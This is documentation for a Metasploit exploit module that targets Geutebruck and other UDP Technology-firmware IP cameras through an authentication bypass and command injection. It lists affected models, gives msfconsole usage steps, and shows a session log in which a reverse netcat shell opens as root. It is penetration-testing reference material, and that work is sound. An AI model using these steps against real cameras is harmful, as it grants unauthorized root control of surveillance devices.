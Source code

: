 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27,
firmware version 1.12.13.2 or firmware version 1.12.14.5:

* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:

  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module bypasses authentication and exploits multiple authenticated arbitrary command execution
vulnerabilities within the parameters of various pages on Geutebruck G-Cam EEC-2xxx and G-Code EBC-21xx, EFD-22xx,
ETHC-22xx, and EWPC-22xx devices running firmware versions <= 1.12.0.27 as well as firmware
versions 1.12.13.2 and 1.12.14.5. Successful exploitation results in remote code execution as the `root` user.

Users can find additional details of this vulnerability on the blogpost page
at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps

  1. Start the camera using default configuration
  2. Launch `msfconsole`
  3. Do: `use exploit/linux/http/geutebruck_cmdinject_cve_2021_335xx`
  4. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `check` to be sure the target is vulnerable
  7. Do: `exploit`
  8. You should get a shell as the `root` user.

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
msf6 > use exploit/linux/http/geutebruck_cmdinject_cve_2021_335xx
[*] Using configured payload cmd/unix/reverse_netcat_gaping
msf6 exploit(linux/http/geutebruck_cmdinject_cve_2021_335xx) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf6 exploit(linux/http/geutebruck_cmdinject_cve_2021_335xx) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf6 exploit(linux/http/geutebruck_cmdinject_cve_2021_335xx) > exploit
[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Setting up request...
[*] Sending CMD injection request to 192.168.14.58:80
[*] Exploit complete, you should get a shell as the root user!
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2021-02-23 13:37:28 +0200
pwd
/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-g3532e87a #1 PREEMPT Tue May 12 18:00:46 KST 2020 armv5tejl GNU/Linux
```